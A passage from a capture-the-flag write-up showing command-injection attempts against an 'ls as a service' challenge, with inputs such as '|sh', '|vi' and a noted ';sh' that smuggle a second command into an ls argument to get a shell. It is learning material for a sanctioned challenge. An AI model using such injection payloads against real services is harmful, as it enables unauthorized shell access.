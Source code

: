 ```
Enter the arguments you would like to pass to ls:
|sh
Result of ls |sh:
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
|wc
Result of ls |wc:
      2       2      14
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
```

I hoped that `sh` would work, but it unfortunately didn't.
[Update: From reading other writeups, all I needed was in fact to pass ";sh" instead of "|sh"].

Trying `vi` gave an interesting output but seemed to exit immediately:
```console
root@kali:/media/sf_CTFs/tamu/Pwn5# nc pwn.tamuctf.com 4325
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
|vi
Result of ls |vi:

~
~
~                              VIM - Vi IMproved
~
~                               version 7.4.1689
~                           by Bram Moolenaar et al.
~           Modified by pkg-vim-maintainers@lists.alioth.debian.org
~                 Vim is open source and freely distributable
~
~                        Help poor children in Uganda!
~                type  :help iccf<Enter>       for information
~
~                type  :q<Enter>               to exit
~                type  :help<Enter>  or  <F1>  for on-line help
~                type  :help version7<Enter>   for version info
~
~                        Running in Vi compatible mode
~                type  :set nocp<Enter>        for Vim defaults
~                type  :help cp-default<Enter> for info on this
~
~
~
ls as a service (laas)(Copyright pending)
Version 2: Less secret strings and more portable!
Enter the arguments you would like to pass to ls:
```
